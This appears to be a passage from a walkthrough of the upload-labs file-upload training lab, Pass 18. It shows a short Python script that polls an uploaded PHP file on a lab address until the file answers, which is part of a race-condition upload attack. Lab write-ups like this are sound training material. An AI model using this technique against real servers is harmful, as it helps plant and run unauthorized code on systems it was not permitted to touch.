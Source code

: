 ![Pass18_14](./img/Pass18_14.PNG)



+ 编写访问脚本<code>AttackScript.py</code>

~~~ python
import requests
url = "http://192.168.31.126:8080/upload-labs/upload/EighteenSecondMethod.php"
while True:
    response = requests.get(url)
    if response.status_code == 200:
        print("ok")
        break
~~~

![Pass18_19](./img/Pass18_19.PNG)
